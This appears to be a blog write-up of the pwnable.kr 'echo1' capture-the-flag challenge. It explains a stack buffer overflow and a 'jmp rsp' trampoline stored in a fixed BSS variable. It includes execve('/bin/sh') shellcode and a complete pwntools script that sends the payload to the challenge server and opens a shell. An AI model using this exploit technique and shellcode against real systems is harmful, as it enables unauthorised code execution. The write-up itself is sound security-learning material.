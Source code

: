 ```yaml
---
layout: post
title:  Pwnable.kr - echo1
categories: [pwnable.kr]
excerpt: Writeup for echo1.
---
```

# echo1

The challenge can be found [here](http://pwnable.kr/play.php).

# Defining The Attack Surface
This binary doesn't shy away from the avenue of attack:
```
my@pc:~/pwnablekr/echo1$ ./echo1
hey, what's your name? : alex

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> 
```

Indeed, looking at the diassembly from Ghidra for `echo1`, aka `BOF echo`,
we can see that, indeed, there's nothing misleading, we have a BOF with more than enough room to easily change control flow.
```c
undefined8 echo1(void)

{
  char local_28 [32];
  
  (**(code **)(o + 0x18))(o); // code ptr here points to `greetings`
  get_input(local_28,0x80);
  puts(local_28);
  (**(code **)(o + 0x20))(o); // code ptr here points to `byebye`
  return 0;
}
```

Clearly, we're going with a buffer overflow style attack.

Our goal is to launch a shell, so somehow we want to invoke shellcode which will call (something like) `execve("/bin/sh", NULL, NULL)`.

So, a natural next question is where this shellcode can live; a quick `checksec` answers that for us:

```
my@pc:~/pwnablekr/echo1$ checksec echo1
[*] '/home/alexsieusahai/pwnablekr/echo1/echo1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

`NX disabled`; we can just have the shellcode live on the stack.

A next natural question, then, is how we can translate that buffer overflow via `echo1` into an `execve("/bin/sh", NULL, NULL)` call.
Sadly, looking through the overflow points with gdb and a little bit of bruteforce-ish searching, no stack addresses are leaked via the buffer overflow here.

I tried looking for avenues of attack via ROP either for disclosure or as an alternative, but the binary is too small to produce anything I'd need (no `pop rdi; ret` and friends in particular), nor do I (afaik) have a way of doing a puts_puts style disclosure into libc to get its gadgets.

After pondering for some time about what's constant, it's clear.

There is something important about ELFs with no PIE and writable data; the BSS has a constant location!

In particular, we can see in the `main` decompilation that:

```c
undefined8 main(void)

{
  // symbol initialization...
  undefined4 local_28;
  
  // irrelevant code...
  printf("hey, what\'s your name? : ");
  __isoc99_scanf(&DAT_00400bbe,&local_28);
  // more irrelevant code...
  id = local_28;
```

We write to a piece of data that has constant positioning!
We can clearly see from the listing in the bss in the objdump that we take a dword (4 bytes) worth of data from our input.
```bash
my@pc:~/pwnablekr/echo1$ objdump -M intel -d echo1 | grep id
# ... a couple false positives
  400976:	89 05 24 17 20 00    	mov    DWORD PTR [rip+0x201724],eax        # 6020a0 <id>
# there we go! we're moving 4 bytes into the memory corresponding to the id symbol!
```
So, we have a 4 byte trampoline into code that we already know.
Importantly, when we do the buffer overflow, we're writing code around the stack pointer.

So, we can make our `id` value be the bytecode for `jmp rsp`, which is certainly smaller than 5 bytes, and use this to access any shellcode I'd have at `rsp` after the `ret` (in order to run the trampoline).

## Shellcode?

Perhaps interestingly, `execve` doesn't require it's second argument (`rsi`) to be `[value_at_rdi, arg1, arg2, ...]`; it can merely be empty.

I remembered this from [this blog post](https://jameshfisher.com/2017/02/05/how-do-i-use-execve-in-c/) awhile back, from when I was studying shellcoding; at least according to [this stackexchange thread](https://unix.stackexchange.com/questions/187666/why-do-we-have-to-pass-the-file-name-twice-in-exec-functions) it appears to be idiomatic to have `argv[0]` be the binary name, but not required.

Thus, we want to do a syscall that looks like
```c
execve("/bin/sh", NULL, NULL)
```

Thankfully, this is pretty straightforward; [cyberchef](https://gchq.github.io/CyberChef/) can get you the "/bin/sh" reversed hexadecimal equivalent very easily (reversal is just due to little endianness), and hopefully everything else is straightforward.

We simply utilize the stack to store the "/bin/sh" string out of convenience, but in principle anywhere that's not `mprotect`ed against reads and writes should be usable, afaik.

The calling conventions for x86 dictate `rdi, rsi, rdx` as the first three arguments to any syscall, hence the values below.

```s
  mov r10, 0x68732f6e69622f
  push r10
  mov rdi, rsp
  mov rdx, 0
  mov rsi, 0
  mov al, 59
  syscall
```

## Obtaining the full exploit

Out of convenience, we use [pwntools](https://github.com/Gallopsled/pwntools).

We store the shellcode in `shell.s`, just out of syntax highlighting inspired convenience.

We know from the `echo1` stub
```
                             undefined echo1()
             undefined         AL:1           <RETURN>
             undefined1        Stack[-0x28]:1 local_28                                XREF[2]:     00400837(*), 
                                                                                                   00400848(*)  
                             echo1                                           XREF[4]:     Entry Point(*), main:00400981(*), 
```

That `local_28`, what buffer we're overwriting, needs `0x28 -> 40` bytes before we reach the stack pointer for the preceeding stack frame, which will dictate what we `RET` to after doing the `LEAVE` instruction at the end of the function.

So, we arbitrarily pass in 40 bytes worth of garbage.

Then, we want to ret to the trampoline, which we'll just grab conveniently using `ELF.symbols`. 
Keep in mind that we `RET` to this value, and then we `JMP`; our shellcode then must exist just 8 bytes after the initial position of `RSP` (ie, RSP only increases by 8 bytes before we `JMP` to it), hence why we immediately tack the shellcode onto the payload.

`run_echo1` is just really a helper found out by interacting with the binary.

```python
from pwn import *
ID_BSS = p64(ELF('echo1').symbols['id'])

shellcode = open('spawn_shell.s').read()
shellcode = asm(shellcode, arch='x86_64', os='linux')
run_echo1 = b'\n1\n'
bof_payload = b'a' * 40 + ID_BSS + shellcode + b'\n'
payload = asm('jmp rsp', arch='x86_64', os='linux') + run_echo1 + bof_payload

open('in', 'wb').write(payload)

p = remote('pwnable.kr', 9010)
p.send(payload)
print(p.clean())
p.interactive()
```

And, we get the flag!

```sh
$              cat flag
OBFUSCATED
```
